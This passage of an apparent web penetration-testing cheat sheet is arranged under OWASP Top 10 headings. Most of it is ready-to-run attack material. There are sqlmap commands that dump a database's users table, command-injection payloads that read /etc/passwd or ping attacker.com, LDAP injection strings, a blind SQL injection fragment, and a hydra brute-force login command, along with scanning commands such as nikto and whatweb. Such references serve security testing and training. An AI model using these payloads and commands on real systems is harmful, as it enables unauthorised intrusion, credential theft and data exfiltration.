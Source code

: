 ```sql
' AND 1=2--  (False)
```

**SQLMap Tool**
```bash
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --dump
```

**Command Injection**
```bash
; ls -la
| whoami
& ping -c 4 attacker.com
`cat /etc/passwd`
$(whoami)
```

**LDAP Injection**
```
*)(uid=*))(|(uid=*
admin*)(&(password=*)
```

#### 4. Insecure Design
- Design flaws in architecture
- Missing security controls
- Threat modeling failures

#### 5. Security Misconfiguration
```bash
# Common misconfigurations
- Default credentials
- Unnecessary features enabled
- Detailed error messages
- Missing security headers

# Testing
curl -I http://target.com
nikto -h target.com
```

#### 6. Vulnerable Components
```bash
# Identify components
whatweb target.com
wappalyzer (browser extension)

# Check for known vulnerabilities
searchsploit application_name
```

#### 7. Authentication Failures
```bash
# Brute force
hydra -l admin -P wordlist.txt target.com http-post-form

# Session attacks
- Session fixation
- Weak session IDs
- Missing session timeout
```
